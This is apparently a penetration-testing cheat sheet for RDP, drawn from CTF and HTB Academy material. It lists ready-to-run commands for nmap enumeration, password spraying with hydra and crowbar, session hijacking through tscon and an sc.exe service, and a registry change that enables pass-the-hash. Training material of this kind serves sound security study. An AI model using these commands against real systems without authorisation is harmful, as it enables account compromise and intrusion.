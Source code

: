 # RDP

> *Source CTF and HTB Academy*

- Usually on port 3389

The Remote Desktop Protocol (RDP) is a protocol developed by Microsoft for remote access to a computer running the Windows operating system. This protocol allows display and control commands to be transmitted via the GUI encrypted over IP networks.  

- [Official Documentation](https://learn.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol)

Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. Although it is not common, we could find an RDP service without a password if there is a misconfiguration.

> One caveat on password guessing against Windows instances is that you should consider the client's password policy.  
In many cases, a user account will be locked or disabled after a certain number of failed login attempts.  
In this case, we can perform a specific password guessing technique called Password Spraying.  
This technique works by attempting a single password for many usernames before trying another password, being careful to avoid account lockout.

## Enumeration

### Nmap

- `nmap -sV -sC 10.129.201.248 -p3389 --script rdp*`
- `nmap -sV -sC 10.129.201.248 -p3389 --packet-trace --disable-arp-ping -n`

### Password Attack

#### Password spray

- [Crowbar](https://github.com/galkan/crowbar)
- `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`
- `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`

#### hydra

- `hydra -L user.list -P password.list rdp://10.129.42.197`

### Connect to RDP

- `xfreerdp /v:<target-IP> /u:<username> /p:<password>` usage. Example `xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248`
- You can also use [Remmina](https://remmina.org/)
- Or rdesktop `rdesktop 10.0.0.251` or `rdesktop -u admin -p password123 192.168.2.143`
- Remmina is also pretty cool and will save the configs

### RDP Session hijacking

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session.  
It works by specifying which SESSION ID we would like to connect to which session name.

```powershell
# Show logged in users
query user
# hijack a session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz.  
A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges.  
We can use Microsoft sc.exe binary.  
First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.  

```powershell
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
# Start the sessionhijack service to run the command
net start sessionhijack
```

### RDP Pass-the-hash

> Restricted Admin Mode, which is disabled by default, should be enabled on the target host.  
This can be enabled by adding a new registry key DisableRestrictedAdmin (REG_DWORD) under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa. It can be done using the following command:  
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

- `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`

## CVE

- [CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
- [Exploitation of Windows CVE-2019-0708 (BlueKeep): Three Ways to Write Data into Kernel with RDP PDU - Palo Alto networks](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/)

>  Note: This is a flaw that we will likely run into during our penetration tests, but it can cause system instability, including a "blue screen of death (BSoD)," and we should be careful before using the associated exploit. If in doubt, it's best to first speak with our client so they understand the risks and then decide if they would like us to run the exploit or not.